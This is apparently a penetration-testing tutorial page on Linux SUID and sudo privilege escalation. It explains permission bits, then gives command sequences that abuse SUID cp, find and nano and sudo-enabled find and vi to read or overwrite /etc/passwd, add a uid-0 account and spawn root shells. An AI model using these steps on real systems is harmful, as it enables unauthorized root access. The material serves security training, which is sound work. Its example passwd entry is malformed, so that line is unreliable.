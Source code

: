 # 5.2.2 SUID Exploitation

## SUID Exploitation

<details>

<summary>What is SUID?</summary>

SUID, which stands for Set User ID, is a special permission in Linux and Unix-like operating systems. When an executable file has the SUID permission set, it allows the user to execute the file with the privileges of the file's owner rather than the privileges of the user who is running the program. This is particularly useful for certain system programs that need elevated privileges to perform specific tasks.

The SUID permission is represented by the letter "s" in the user permission field of the file's permission bits. When the SUID bit is set, you will see an "s" instead of an "x" in the user permission field. For example:

* If the SUID bit is set: `-rwsr-xr-x`
* If the SUID bit is not set: `-rwxr-xr-x`

Common examples of programs that use the SUID permission include `passwd` and `sudo`. These programs need elevated privileges to perform tasks like changing the user password or running commands with superuser privileges.

It's important to note that the SUID mechanism should be used with caution, as it can introduce security risks. If a poorly designed program has the SUID bit set and contains vulnerabilities, it may be exploited to gain unauthorized access or perform malicious actions with elevated privileges. Therefore, system administrators should carefully review and audit programs with the SUID bit set to ensure they are secure and necessary for system functionality.

</details>

```bash
r=read, w=write, x=execute

rwx      rwx      rwx
user     group    others
421      421      421
4+2+1=7  4+2+1=7  4+2+1=7

chmod 777 #Maximum privileges
```

{% embed url="https://linuxhint.com/special-permissions-suid-guid-sticky-bit/" %}

<div align="left"><figure><img src="../../../../.gitbook/assets/image (37).png" alt=""><figcaption><p><a href="https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png">https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png</a></p></figcaption></figure></div>

{% embed url="https://www.redhat.com/sysadmin/suid-sgid-sticky-bit" %}

```bash
#Special Permissions
SUID (user) -> rwx -> rwS
SGID (group) -> rwx -> rwS
Sticky bits (others) -> rwT

chmod u+s = chmod 4755

find / -perm -u=s -type f 2>/dev/null #find files with root owner
```

<details>

<summary>What is a SUID Exploitation?</summary>

**SUID exploitation** is a serious security concern and is often associated with unauthorized activities and hacking. System administrators should follow best practices in securing their systems, including proper configuration, regular updates, and auditing of permissions to minimize the risk of SUID-related vulnerabilities.

Here's a basic overview of SUID exploitation:

1. **Understanding SUID:**
   * SUID is a special permission that can be set on an executable file. When a user runs a program with the SUID bit set, the program runs with the privileges of the file owner rather than the user who is executing the program.
2. **Exploitation Scenario:**
   * An attacker looks for a vulnerable program with the SUID bit set. This could be a system utility or custom program that has a security flaw.
3. **Identifying Vulnerabilities:**
   * The attacker identifies vulnerabilities in the program that can be exploited to execute arbitrary code or commands. These vulnerabilities could include buffer overflows, input validation issues, or other security weaknesses.
4. **Execution of Malicious Code:**
   * The attacker creates or injects malicious code into the vulnerable program. When the SUID program is executed, it runs with elevated privileges, allowing the attacker to perform actions they wouldn't normally be allowed to do.
5. **Gaining Elevated Privileges:**
   * By exploiting the SUID program, the attacker may gain elevated privileges, enabling them to access sensitive files, manipulate system configurations, or perform other malicious activities.
6. **Mitigation:**
   * To prevent SUID exploitation, it's crucial to carefully review and audit programs with the SUID bit set. Remove unnecessary SUID permissions, and ensure that programs are secure and well-designed to resist exploitation.
7. **Regular System Audits:**
   * System administrators should conduct regular audits to identify and address potential security risks. This includes monitoring for changes in SUID permissions and reviewing the security of programs with elevated privileges.

</details>

## Suid Exploits (PoC)

### CP Command

```bash
adduser new_user #create a new user
getent passwd new_user #check if new_user exists
su new_user #switch to new_user account
cp /etc/passwd /var/www/html/ #PERMISSION DENIED!
```

Infact, if I try to use: `find / -perm -u=s -type f 2>/dev/null` there's not cp path (or in alternative see permissions of `ls -al command_path_name`). If we want to assign SUID permission at cp command, we need to use chmod u+s (path of cp command):

```bash
which cp
/usr/bin/cp
chmod u+s /usr/bin/cp #it needs root permissions
```

Now, every users can execute cp command with root permissions!

Then, we can execute the same sequence of commands regarding cp of /etc/passwd using new\_user account user:

```bash
su new_user
cp /etc/passwd /var/www/html/
```

The idea is to add a new user with root permissions and not only for cp command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

In alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/cp/) site regarding `cp` command in the section of SUID:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/cp/">https://gtfobins.github.io/gtfobins/cp/</a></p></figcaption></figure>

### FIND Command

In the wake of the previous example, we proceed with the find command, using the same normal user (new\_user).

```bash
which find
/usr/bin/find
ls -al /usr/bin/find
-rwxr-xr-x 1 root root 224848  8 gen  2023 /usr/bin/find
chmod u+s /usr/bin/find #give SUID permissions, it needs root permissions
```

To do privilege escalation we only need to file an existing file using find command:

```bash
find example_file -exec "whoami" \;
root
```

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) site regarding `find` command in the section of SUID:

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/find/#suid">https://gtfobins.github.io/gtfobins/find/#suid</a></p></figcaption></figure>

### NANO Command

As the last case, we do this sequence of command to do NANO SUID exploitation:

```bash
which nano
/usr/bin/nano
ls -al /usr/bin/nano
-rwxr-xr-x 1 root root 287480 18 gen  2023 /usr/bin/nano
chmod u+s /usr/bin/nano #give SUID permissions, it needs root permissions
```

Now, we can open file with root permissions like as /etc/passwd with a normal user using nano:

```bash
nano /etc/passwd
```

As the example of Copy SUID, the idea is to add a new user with root permissions and not only for nano command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#suid) site regarding `nano` command in the section of SUID:

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/nano/#suid">https://gtfobins.github.io/gtfobins/nano/#suid</a></p></figcaption></figure>

### RIGHT Command

Sudoers file can cantoins users with a specific root permission called SUDO Rights, e.g. new\_user ca execute `find` command as root:

```bash
visudo #to open sudoers file
root   ALL=(ALL:ALL) ALL
new_user  ALL=(root) NOPASSWD: /usr/bin/find
```

To do privilege escalation we only need to file an existing file using find command:

```bash
su new_user
sudo find /home -exec /bin/bash \;
root
```

Can we do the same for others command, e.g. vi command:

```
new_user  ALL=(root) NOPASSWD: /usr/bin/vi
```

```bash
su new_user
sudo vi example_file
!bash #write it into example_file and save using Enter
root
```

It's possible to do the same for more command such as: man, python, nano, vim, etc.

## Other resources

{% embed url="https://gtfobins.github.io/" %}
